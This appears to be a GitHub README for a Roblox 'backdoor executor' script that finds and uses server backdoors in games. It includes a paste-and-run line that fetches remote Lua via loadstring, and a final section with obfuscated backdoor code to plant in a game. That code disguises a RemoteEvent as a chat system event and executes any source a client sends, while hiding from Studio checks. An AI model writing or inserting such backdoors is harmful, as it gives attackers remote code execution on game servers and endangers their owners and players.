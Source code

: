 # backdoor-executor.lua
###
* Created on: July 22, 2021 GMT+8 (based on the commit date in my jLn0n/scripts-private repo)
###
(pls help me get a new name for this script)
might be better than [backdoor.exe](https://github.com/iK4oS/backdoor.exe) in terms of scanning.

## Info
This script is for [Roblox](https://roblox.com) scanning backdoors and executing serversided scripts within a gui.
### Script
Just copy the script below and execute it through your executor.
```lua
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jLn0n/created-scripts-public/main/backdoor-executor/backdoor-executor.lua"))()
```
### Requirements
- A brain that knows this stuff
- Decent executor that supports filesystem functions (for config)
### Config Help
- My config has reset back to original
> The config will reset to the original config if the config version(configVer in [bexe-config.lua](https://github.com/jLn0n/created-scripts-public/blob/main/backdoor-executor/bexe-config.lua)) is lower than the original config so you should always backup your config to prevent config resets
- Adding cache example
```lua
[placeid] = {
	["Path"] = "remote.path.here", -- this is the path of the remote, don't do remote.path["here"] or it will not work
	["Args"] = {"arg1here", "source"}, -- source shouldn't be deleted because its a arg for scripts that will be executed
	["Func"] = function(source) -- use this if a game has a custom encryption for source
		return source
	end
}
```
> if the cache didn't work backdoor-executor.lua will warn u that the cache is outdated
- Using autoexecute
> add a script inside the autoExecute table, you can put many code as long as you want inside the table, example:
```lua
-- it should be a array and don't add a nil or it will not work
{
	[[print("jLn0n is epic!")]],
	[[warn("backdoor-executor.lua needs a new name!")]]
},
```
- blacklisting events
> it should be just like adding scripts on autoexecute, example:
```lua
{
	["eventNames"] = {
		["blacklistedNameHere"] = true
	},
	["eventParentNames"] = {
		["blacklistedParentName"] = true
	}
},
```

## Adding a backdoor in your game
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `LoadStringEnabled` property in `ServerScriptService`. (code is just semi-obfuscated and easily crackable lol)
```lua
if game:GetService("\82\117\110\83\101\114\118\105\99\101"):IsStudio() or not game:GetService("\83\101\114\118\101\114\83\99\114\105\112\116\83\101\114\118\105\99\101").LoadStringEnabled then return end
local a1 = Instance.new("\82\101\109\111\116\101\69\118\101\110\116"); a1.Name = "\71\101\116\80\108\97\121\101\114\77\101\115\115\97\103\101\65\115\121\110\99"; a1.Parent=game:GetService("\82\101\112\108\105\99\97\116\101\100\83\116\111\114\97\103\101"):WaitForChild("\68\101\102\97\117\108\116\67\104\97\116\83\121\115\116\101\109\67\104\97\116\69\118\101\110\116\115"); a1.OnServerEvent:Connect(function(_, a2)loadstring(a2)()end)
```
